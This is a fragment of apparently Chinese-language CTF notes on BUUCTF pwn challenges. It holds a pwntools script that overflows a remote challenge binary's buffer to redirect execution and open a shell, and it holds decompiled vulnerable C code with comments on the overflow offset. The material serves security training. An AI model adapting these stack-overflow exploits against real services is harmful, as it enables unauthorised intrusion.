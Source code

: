 3、hex转ascii。

## pwn

### jarvisoj_level0

```python
from pwn import *
# context.proxy = (socks.HTTP, 'proxy2.', 8080)
sh = remote('node3.buuoj.cn',27627)

retn = 0x0004005F4
shellcode = 0x0400596

payload = flat('a'* 0x88,  p64(shellcode))
sh.sendline(payload)
sh.interactive()
```

### 3

```c
int vuln()
{
  const char *v0; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v3; // [esp+3Ch] [ebp-1Ch]
  char v4; // [esp+40h] [ebp-18h]
  char v5; // [esp+47h] [ebp-11h]
  char v6; // [esp+48h] [ebp-10h]
  char v7; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata); // 溢出, 0x3C到0, 再+4个eip
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v5);
  std::string::string((int)&v4, (int)"you", (int)&v5);
  std::allocator<char>::allocator(&v7);
  std::string::string((int)&v6, (int)"I", (int)&v7); // I会改成you，所以除以0x3c除3=0x14=20
  replace((std::string *)&v3);
  std::string::operator=(&input, &v3, &v6, &v4);
  std::string::~string((std::string *)&v3);
  std::string::~string((std::string *)&v6);
  std::allocator<char>::~allocator(&v7);
  std::string::~string((std::string *)&v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(&s, v0);
  return printf("So, %s\n", &s);
}
```
